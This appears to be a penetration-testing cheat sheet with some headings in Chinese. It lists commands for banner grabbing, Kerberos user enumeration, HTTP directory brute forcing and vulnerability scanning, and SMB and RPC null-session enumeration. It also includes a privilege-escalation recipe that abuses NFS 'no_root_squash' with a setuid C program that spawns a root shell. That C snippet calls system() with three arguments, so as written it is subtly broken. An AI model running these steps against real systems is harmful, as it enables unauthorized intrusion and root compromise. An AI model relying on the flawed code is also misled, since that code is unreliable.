 ### Banner Grabbing

```
nc -v $TARGET 80
telnet $TARGET 80
curl -vX $TARGET
```

### NFS导出共享

```
List NFS exported shares:
showmount -e 192.168.110.102
...and check if 'rw,no_root_squash' is present. If it is present, compile the below sid-shell.c:
#include <unistd.h>

main( int argc, char ** argv, char ** envp )
{
    setgid(0); setuid(0); system("/bin/bash", argv, envp);
    return 0;
}
...upload it to the share and execute the below to launch sid-shell to spawn a root shell:
chown root:root sid-shell; chmod +s sid-shell; ./sid-shell
```

### Kerberos 枚举

```
#users

nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'
```

### HTTP暴力破解和漏洞扫描

```
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
```

### RPC / NetBios / SMB

```
rpcinfo -p $TARGET
nbtscan $TARGET

#list shares
smbclient -L //$TARGET -U ""

# null session
rpcclient -U "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```
